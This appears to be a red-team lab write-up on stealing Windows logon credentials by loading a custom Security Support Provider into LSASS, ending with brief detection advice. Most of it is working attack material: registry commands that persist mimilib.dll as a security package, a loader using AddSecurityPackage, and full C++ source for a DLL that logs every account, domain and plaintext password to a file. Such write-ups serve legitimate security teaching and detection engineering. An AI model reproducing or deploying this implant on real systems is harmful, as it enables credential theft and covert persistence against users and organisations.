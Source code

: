 ```yaml
---
description: Credential Access, Persistence
---
```


# Intercepting Logon Credentials via Custom Security Support Provider and Authentication Packages

This technique abuses Windows Security Support Provider (SSP) and Authentication Packages (AP) that come in the form of DLLs that get injected into LSASS.exe process on system boot or dynamically via `AddSecurityPackage` API.

## Loading SSP with Reboot

In this lab, mimikatz Security Support Provider [mimilib.dll](https://github.com/gentilkiwi/mimikatz) will be registered as a Windows Security Package.&#x20;

Once the Security Package is registered and the system is rebooted, the mimilib.dll will be loaded into lsass.exe process memory and intercept all logon passwords next time someone logs onto the system or otherwise authenticates, say, via `runas.exe`.

Let's now build the [mimilib.dll](https://github.com/gentilkiwi/mimikatz) and copy it to the target machine's system32 folder:

{% code title="attacker@target" %}
```cpp
PS C:\> copy mimilib.dll %systemroot%\system32
```
{% endcode %}

Get a list existing LSA Security Packages:

{% code title="attacker@target" %}
```bash
PS C:\> reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"

HKEY_LOCAL_MACHINE\system\currentcontrolset\control\lsa
    Security Packages    REG_MULTI_SZ    kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u
```
{% endcode %}

Add mimilib.dll to the Security Support Provider list (Security Packages):

{% code title="attacker@target" %}
```csharp
PS C:\> reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ /f
```
{% endcode %}

The below shows `Security Packages` registry value with the `mimilib` added and the `kiwissp.log` file with a redacted password that had been logged during the user logon (after the system had been rebooted after the Security Package was registered):

![](../../.gitbook/assets/lsa-security-packages.png)

{% hint style="info" %}
Reboot is required for the new SSP to take effect after it's been added to the Security Packages  list.
{% endhint %}

## Loading SSP without Reboot

It's possible to load the SSP DLL without modifying the registry:

![](<../../.gitbook/assets/image (423).png>)

Below code loads the malicious SSP spotless.dll:

```cpp
#define WIN32_NO_STATUS
#define SECURITY_WIN32
#include <windows.h>
#include <sspi.h>
#include <NTSecAPI.h>
#include <ntsecpkg.h>
#pragma comment(lib, "Secur32.lib")

int main()
{
	SECURITY_PACKAGE_OPTIONS spo = {};
	SECURITY_STATUS ss = AddSecurityPackageA((LPSTR)"c:\\temp\\spotless.dll", &spo);
	return 0;
}
```

Below shows how the new Security Package spotless.dll is loaded by lsass and is effective immediately:

![procmon filter: path contains "spotless"](../../.gitbook/assets/load-ssp.gif)

{% hint style="info" %}
Loading the SSP with this approach does not survive a reboot unlike SSPs that are loaded as registered Security Packages via registry.
{% endhint %}

## Detection

It may be worth monitoring `Security Packages` value in`hklm\system\currentcontrolset\control\lsa\` for changes.&#x20;

Newly added packages should be inspected:

![](../../.gitbook/assets/lsa-commandline.png)

Additionally, mimilib.dll (same applies to custom spotless.dll) can be observed in the list of DLLs loaded by lsass.exe, so as a defender, you may want to make a baseline of loaded known good DLLs of the lsass process and monitor it for any new suspicious DLLs:

![](<../../.gitbook/assets/Screenshot from 2018-07-24 23-08-39 (1) (1).png>)

## Code

Below is the code, originally taken from [mimikatz](https://github.com/gentilkiwi/mimikatz), adapted and refactored to suit this lab, that we can compile as our own Security Support Provider DLL. It intercepts authenticatin details and saves them to a file `c:\temp\logged-pw.txt`:

```cpp
#include "stdafx.h"
#define WIN32_NO_STATUS
#define SECURITY_WIN32
#include <windows.h>
#include <sspi.h>
#include <NTSecAPI.h>
#include <ntsecpkg.h>
#include <iostream>
#pragma comment(lib, "Secur32.lib")

NTSTATUS NTAPI SpInitialize(ULONG_PTR PackageId, PSECPKG_PARAMETERS Parameters, PLSA_SECPKG_FUNCTION_TABLE FunctionTable) { return 0; }
NTSTATUS NTAPI SpShutDown(void) { return 0; }

NTSTATUS NTAPI SpGetInfo(PSecPkgInfoW PackageInfo)
{
	PackageInfo->Name = (SEC_WCHAR *)L"SSSPotless";
	PackageInfo->Comment = (SEC_WCHAR *)L"SSSPotless <o>";
	PackageInfo->fCapabilities = SECPKG_FLAG_ACCEPT_WIN32_NAME | SECPKG_FLAG_CONNECTION;
	PackageInfo->wRPCID = SECPKG_ID_NONE;
	PackageInfo->cbMaxToken = 0;
	PackageInfo->wVersion = 1;
	return 0;
}

NTSTATUS NTAPI SpAcceptCredentials(SECURITY_LOGON_TYPE LogonType, PUNICODE_STRING AccountName, PSECPKG_PRIMARY_CRED PrimaryCredentials, PSECPKG_SUPPLEMENTAL_CRED SupplementalCredentials)
{
	HANDLE outFile = CreateFile(L"c:\\temp\\logged-pw.txt", FILE_GENERIC_WRITE, 0, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	DWORD bytesWritten = 0;
	
	std::wstring log = L"";
	std::wstring account = AccountName->Buffer;
	std::wstring domain = PrimaryCredentials->DomainName.Buffer;
	std::wstring password = PrimaryCredentials->Password.Buffer;

	log.append(account).append(L"@").append(domain).append(L":").append(password).append(L"\n");
	WriteFile(outFile, log.c_str(), log.length() * 2, &bytesWritten, NULL);
	CloseHandle(outFile);
	return 0;
}

SECPKG_FUNCTION_TABLE SecurityPackageFunctionTable[] = 
{
	{
		NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL,	SpInitialize, SpShutDown, SpGetInfo, SpAcceptCredentials, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL 
	}
};

// SpLsaModeInitialize is called by LSA for each registered Security Package
extern "C" __declspec(dllexport) NTSTATUS NTAPI SpLsaModeInitialize(ULONG LsaVersion, PULONG PackageVersion, PSECPKG_FUNCTION_TABLE *ppTables, PULONG pcTables)
{
	*PackageVersion = SECPKG_INTERFACE_VERSION;
	*ppTables = SecurityPackageFunctionTable;
	*pcTables = 1;
	return 0;
}
```

## References

{% embed url="https://github.com/gentilkiwi/mimikatz" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/secauthn/lsa-mode-initialization" %}

{% embed url="https://github.com/veramine/Detections/wiki/LSA-Packages" %}

{% embed url="https://adsecurity.org/?p=1760" %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1131" %}

{% embed url="https://blog.xpnsec.com/exploring-mimikatz-part-2/" %}
